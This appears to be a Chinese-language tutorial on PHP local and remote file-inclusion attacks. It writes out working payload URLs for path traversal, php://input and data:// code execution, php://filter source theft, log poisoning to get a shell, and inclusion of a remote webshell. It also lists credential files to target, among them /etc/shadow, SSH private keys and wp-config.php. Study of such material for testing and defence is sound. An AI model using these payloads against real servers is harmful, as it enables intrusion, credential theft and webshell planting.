






程序在引用文件的时，引用的文件名，用户可控的情况，传入的文件名没有经过合理的校验或校验不严，从而操作了预想之外的文件，就有可能导致文件泄漏和恶意的代码注入。

## 1、本地包含漏洞：被包含的文件在服务器本地

本地包含漏洞利用

包含/etc/passwd

```http
http://www.webtester.com/include/file01.php?file=../../../../etc/passwd
```

 

- 利用 上传图片->包含图片Getshell

- 读取文件，读php源代码

- 包含日志文件Getshell

- 包含proc/self/environ 文件getshell

- phpinfo 包含临时文件

- 伪协议

伪协议包含data:// 或者php://等协议(allow_url_include=On)

 1) php://input

说明：

用来接收POST数据。我们能够通过input把我们的语句输入上去然后执行。
条件：

**php <5.0 ，allow_url_include=Off情况下也可以用**
**php > 5.0，只有在allow_url_fopen=On 时才能使用**

URL：

```
http://www.webtester.com/include/file01.php?file=php://input
```

 

POST：

```php
<?php fputs(fopen("shell.php","a"),"<?php phpinfo();?>") ?>
```

2)data://

说明：
这是一种数据流封装器，data:URI schema(URL schema可以是很多形式)

利用data://伪协议进行代码执行的思路原理和php://是类似的，都是利用了PHP中的流的概念，将原本的include的文件流重定向到了用户可控制的输入流中
条件：

**php > 5.2，allow_url_include=On情况下**

```http
http://www.webtester.com//include/file01.php?file=data:text/plain,<?php system(id)?>
```

 

```http
http://www.webtester.com//include/file01.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKHdob2FtaSk/Pg==
```



3)php://filter

说明：

这个语句用来查看源码。直接包含php文件时会被解析，不能看到源码，所以用filter来读取，不过要先base64加密传输过来：

访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码

```http
http://www.webtester.com/include/file01.php?file=php://filter/read=convert.base64-encode/resource=file01.php
```

 

4)包含日志文件getshell

需要的权限很大，需要通过burp修改，将shell写入到日志中，然后通过文件包含

/usr/local/apache2/logs/access_log
/logs/access_log
/etc/httpd/logs/access_log
/var/log/httpd/access_log

5）读取网站配置文件

dedecms数据库配置文件data/common.inc.php,
discuz全局配置文件config/config_global.php,
phpcms配置文件caches/configs/database.php
phpwind配置文件conf/database.php
wordpress配置文件wp-config.php

6）包含系统配置文件  

 windows

 C:/boot.ini  //查看系统版本
 C:/Windows/System32/inetsrv/MetaBase.xml  //IIS配置文件
 C:/Windows/repairsam  //存储系统初次安装的密码
 C:/Program Files/mysql/my.ini  //Mysql配置
 C:/Program Files/mysql/data/mysql/user.MYD  //Mysql root
 C:/Windows/php.ini  //php配置信息
 C:/Windows/my.ini  //Mysql配置信息

 linux

 /root/.ssh/authorized_keys
 /root/.ssh/id_rsa
 /root/.ssh/id_ras.keystore
 /root/.ssh/known_hosts
 /etc/passwd
 /etc/shadow
 /etc/my.cnf
 /etc/httpd/conf/httpd.conf
 /root/.bash_history
 /root/.mysql_history
 /proc/self/fd/fd[0-9]*(文件标识符)
 /proc/mounts
 /porc/config.gz

## 2、远程包含：被包含的文件在第三方服务器

条件 php.ini 中的配置项

allow_url_fopen = On
allow_url_include = On

包含远程WEBSHELL

```http
http://www.webtester.com/include/file01.php?file=http://192.168.31.125/x.txt
```

文件是可看得到包含过来的文件最好是个txt。

 

